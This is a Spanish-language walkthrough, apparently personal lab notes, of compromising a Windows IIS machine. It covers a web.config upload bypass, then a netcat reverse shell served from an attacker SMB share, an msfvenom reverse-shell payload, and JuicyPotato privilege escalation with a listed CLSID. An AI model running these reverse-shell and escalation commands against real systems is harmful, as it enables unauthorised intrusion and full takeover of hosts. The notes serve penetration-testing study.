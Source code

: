 Hacemos el escaneo de nmap:
![[Pasted image 20240809145436.png]]
Esto corre por el puerto 80:
![[Pasted image 20240908120758.png]]
Si hacemos fuzzing web vemos un archivo llamado zoc.aspx:
![[Pasted image 20240908120853.png]]
Visualizamos este zoc.aspx:
![[Pasted image 20240908121545.png]]
Probamos en subir un archivo aspx:
```bash
find / -name shell.aspx 2>/dev/null
```
Pero no podemos subir archivos aspx:
![[Pasted image 20240908121720.png]]
Vamos a abrir burpsuite para probar muchas extensiones a ver si alguna de ellas es compatible con el intruder de burp suite:
![[Pasted image 20240908121926.png]]
Y usaremos algún diccionario específico de extensiones:
![[Pasted image 20240908122051.png]]
Pero por aquí no vemos nada:
![[Pasted image 20240908122307.png]]
En hacktricks nos dicen que podemos subir un archivo .aspx:
```bash
https://book.hacktricks.xyz/v/es/network-services-pentesting/pentesting-web/iis-internet-information-services
```
![[Pasted image 20240908122502.png]]
Y se nos ofrece un ejemplo para descargar un .config:
![[Pasted image 20240908122532.png]]
![[Pasted image 20240908122551.png]]
Copiamos el contenido de este archivo y nos creamos un web.config, el cual vemos que se sube bien:
![[Pasted image 20240908122649.png]]
Pero desconocemos donde se subió este archivo, por lo que si miramos el código fuente de esta url podemos ver un directorio llamado /Subiditosdetono:
![[Pasted image 20240908122757.png]]
Y ahora sí encontramos el pwned.config:
![[Pasted image 20240908122950.png]]
Ahora vamos a hacer la intrusión, copiando el netcat.exe de nuestro Kali, creando un recurso compartido y obtenerlo desde la máquina víctima:
```bash
cp /usr/share/windows-binaries/nc.exe .
impacket-smbserver -smb2support recurso .
```
![[Pasted image 20240908123135.png]]
Y ahora nos recibimos la reverse shell:
```bash
\\192.168.122.160\recurso\nc.exe -e cmd 192.168.122.160 443
```
![[Pasted image 20240908123246.png]]
![[Pasted image 20240908123319.png]]
Una vez dentro, vamos a ejecutar el comando `whoami /priv` para conocer qué privilegios tiene mi actual usuario, y vemos el de SeImpersonatePrivilege:
![[Pasted image 20240908123424.png]]
Nos descargamos el juicypotato:
```bash
https://github.com/ohpe/juicy-potato/releases/tag/v0.1
```
Y también nos creamos una shell.exe con msfvenom que será lo que ejecutemos como el usuario administrador con el juicypotato:
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.122.160 LPORT=4444 -f exe -o shell.exe
```
![[Pasted image 20240908123733.png]]
Nos lo compartimos y lo descargamos en la máquina víctima:
```bash
copy \\192.168.122.160\recurso\shell.exe shell.exe
```
![[Pasted image 20240908124243.png]]
Y lo mismo con el juicypotato.exe:
```bash
copy \\192.168.122.160\recurso\JuicyPotato.exe JuicyPotato.exe
```
![[Pasted image 20240908124351.png]]
Ahora necesitamos conocer el CLSID, por lo que tenemos la siguiente url:
```bash
https://github.com/ohpe/juicy-potato/blob/master/CLSID/README.md
```
![[Pasted image 20240908125131.png]]
Comprobamos nuestra versión de windows con el comando systeminfo:
![[Pasted image 20240908125314.png]]
En la web ponemos windows server 2008, donde usaremos el primero de ellos:
![[Pasted image 20240908125412.png]]
Ejecutamos el siguiente comando pasandole el CLSID correspondiente, lo cual es un identificador que se utiliza para cada versión de windows:
```bash
JuicyPotato.exe -l 4444 -p shell.exe -t * -c "{9B1F122C-2982-4e91-AA8B-E071D54F2A4D}"
```
Y recibimos la conexión:
![[Pasted image 20240908125001.png]]
